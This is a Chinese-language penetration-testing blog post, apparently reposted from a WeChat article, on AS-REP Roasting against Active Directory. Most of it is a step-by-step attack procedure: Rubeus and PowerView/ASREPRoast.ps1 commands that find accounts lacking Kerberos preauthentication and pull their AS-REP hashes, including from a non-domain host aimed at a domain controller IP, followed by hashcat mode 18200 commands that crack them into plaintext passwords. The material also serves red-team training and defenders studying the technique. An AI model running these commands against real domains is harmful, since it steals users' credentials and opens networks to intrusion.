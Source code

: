 ```yaml
---
title: "内网渗透-AS-REPRoasting"
date: 2020-08-31 11:56:23 +0800
category: 内网渗透
tags: [内网,域]
excerpt: 内网渗透-AS-REPRoasting
---
```

# AS-REPRoasting
## 原理
对于域用户，如果设置了选项”Do not require Kerberos preauthentication(不需要kerberos预身份验证)”，此时向域控制器的88端口发送AS_REQ请求，对收到的AS_REP内容(enc-part底下的ciper，因为这部分是使用用户hash加密session-key，我们通过进行离线爆破就可以获得用户hash)重新组合，能够拼接成”Kerberos 5 AS-REP etype 23”(18200)的格式，接下来可以使用hashcat对其破解，最终获得该用户的明文口令
![](https://p5.ssl.qhimg.com/t014ca76343bf5ba087.png)

## 利用
### 普通域用户
#### Rubeus.exe
1：使用rubeus.exe获得Hash

> 这个功能会通过LDAP查询域内用户设置了选项”Do not require Kerberos preauthentication”，然后发AS_REQ的包，直接生成hash或者john可破解的格式
```
Rubeus.exe asreproast
or
Rubeus.exe asreproast > hash.txt
```
2：使用hashcat对获得的Hash进行爆破
将hash.txt里面的除Hash字段其他的都删除，复制到hashcat目录下，并且修改为hashcat能识别的格式，在$krb5asrep后面添加$23拼接。
![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFiaHxdwPJibRNZK6jvZIrRBFX3eVBSrs0OhWVWZ83WD7hJ2NIicAB3RmUkB3m7oJR0LDg1X73ERIjYTA/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)
然后使用以下命令爆破

```
 hashcat64.exe -m 18200 hash.txt pass.txt --force
```
![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFiaHxdwPJibRNZK6jvZIrRBFX6oP4eYRXwxZKEGELE7mOpfplfLw384xW222XgqnMm5LRVHE3ibo3fvA/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)
![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFiaHxdwPJibRNZK6jvZIrRBFXYLdr8le2toyvNKSCtGyjm8LPh7bsPQREM2wvVYS2FwVTPQn5qlmbrQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

#### powershell脚本

1：使用[PowerSploit](https://github.com/PowerShellMafia/PowerSploit)下的powerview.ps1查找域中设置了 "不需要kerberos预身份验证" 的用户
https://github.com/PowerShellMafia/PowerSploit/blob/445f7b2510c4553dcd9451bc4daccb20c8e67cbb/Recon/PowerView.ps1

```
Import-Module .\PowerView.ps1
Get-DomainUser -PreauthNotRequired -Verbose
//只显示distinguishedname项：
Import-Module .\PowerView.ps1
Get-DomainUser -PreauthNotRequired -Properties distinguishedname -Verbose
```
 ![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFiaHxdwPJibRNZK6jvZIrRBFXfMZxzN9R9QthfaZ6ibWfrzwyjNOfchVDFOHZecnP7MJgcEWLziaajic2A/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

2：使用ASREPRoast.ps1获取AS-REP返回的Hash

```
Import-Module .\ASREPRoast.ps1
Get-ASREPHash -UserName hack2 -Domain xie.com | Out-File -Encoding ASCII hash.txt
```
3：使用hashcat对获得的Hash进行爆破
将hash.txt复制到hashcat目录下，并且修改为hashcat能识别的格式，在$krb5asrep后面添加$23拼接。然后使用以下命令爆破。
```
hashcat64.exe -m 18200 hash.txt pass.txt --force
```
### 非域内机器
1：对于非域内的机器，无法通过LDAP来发起用户名的查询。
2：所以要想获取 "不需要kerberos预身份验证" 的域内账号，只能通过枚举用户名的方式来获得。而AS-REP Hash方面。非域内的主机，只要能和DC通信，便可以获取到。使用Get-ASREPHash，通过指定Server的参数即可

```
Import-Module .\ASREPRoast.ps1
Get-ASREPHash -UserName hack2 -Domain xie.com -Server 192.168.10.131 | Out-File -Encoding ASCII hash.txt
```
3：获取到Hash后，使用hashcat对其爆破，和上面一样，这里就不演示了。

```
hashcat64.exe -m 18200 hash.txt pass.txt --force
```
转自:https://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247489128&idx=1&sn=dac676323e81307e18dd7f6c8998bde7&chksm=fc7812b5cb0f9ba3a63c447468b7e1bdf3250ed0a6217b07a22819c816a8da1fdf16c164fce2&scene=21#wechat_redirect
